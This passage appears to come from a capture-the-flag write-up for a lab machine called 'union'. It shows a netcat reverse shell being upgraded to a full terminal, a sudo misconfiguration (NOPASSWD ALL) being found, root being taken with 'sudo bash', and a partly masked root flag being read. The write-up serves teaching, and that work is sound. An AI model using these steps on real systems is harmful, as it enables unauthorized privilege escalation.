 ```

www-data@union:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null 
www-data@union:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@union:~/html$ 

```

## Shell as root

It was clear in the PHP code that www-data has to be able to run `sudo iptables` in order to open ports in the firewall. Running `sudo -l` shows this account has much more privilege:

```

www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL

```

It can run any command using `sudo` without a password. I’ll use this to get a shell:

```

www-data@union:~/html$ sudo bash
root@union:/var/www/html#

```

And grab the root flag:

```

root@union:~# cat root.txt
92471af0************************

```